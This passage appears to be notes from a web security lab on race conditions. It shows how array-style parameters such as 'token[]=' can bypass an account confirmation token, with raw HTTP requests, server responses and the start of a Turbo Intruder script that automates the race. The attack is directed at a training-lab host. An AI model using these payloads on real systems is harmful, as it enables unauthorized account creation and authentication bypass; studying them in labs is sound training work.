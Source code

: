 Further reference: [The State of State Machines](https://googleprojectzero.blogspot.com/2021/01/the-state-of-state-machines.html), Natalie Silvanovich, Project Zero

Frameworks often let you pass in arrays and other non-string data structures using non-standard syntax. For example, in PHP:
- `param[]=foo` is equivalent to `param = ['foo']`
- `param[]=foo&param[]=bar` is equivalent to `param = ['foo', 'bar']`
- `param[]` is equivalent to `param = []`

Ruby on Rails lets you do something similar by providing a query or `POST` parameter with a key but no value. In other words `param[key]` results in the following server-side object:
- `params = {"param"=>{"key"=>nil}}`

In the example above, this means that during the race window, you could potentially make authenticated API requests as follows:
```http
GET /api/user/info?user=victim&api-key[]= HTTP/2 
Host: vulnerable-website.com
```

Arbitrary user registration example:
```http
POST /register HTTP/2
Host: 0a7800c4033a7f6585ac8b5800030008.web-security-academy.net
Cookie: phpsessionid=5k9zINghyH0bUZjaKYafa3gRD9Wpc9Av
Content-Length: 99
Content-Type: application/x-www-form-urlencoded

csrf=amuJ1gjWet7aoO94X5bdafM6TK9QXlbk&username=%s&email=victim@ginandjuice.shop&password=test
```

Leaked the confirmation request sent after the user has been created:
```http
POST /confirm?token=1 HTTP/2
Host: 0a7800c4033a7f6585ac8b5800030008.web-security-academy.net
Cookie: phpsessionid=5k9zINghyH0bUZjaKYafa3gRD9Wpc9Av
Content-Length: 0


HTTP/2 400 Bad Request
"Incorrect token: 1"
```

Tampering with the token parameter we can pass null Array values to the backend:
```http
POST /confirm?token[]= HTTP/2
Host: 0a7800c4033a7f6585ac8b5800030008.web-security-academy.net
Cookie: phpsessionid=5k9zINghyH0bUZjaKYafa3gRD9Wpc9Av
Content-Length: 0


HTTP/2 400 Bad Request
"Incorrect token: Array"
```

Automated the attack in order to send multiple registration request and the corresponding confirmation ones:
```py
confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a7800c4033a7f6585ac8b5800030008.web-security-academy.net
Cookie: phpsessionid=TNVOQpRpWHn60Ca48h14rNWQ8QZYn2A3
Content-Length: 0

'''

def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
```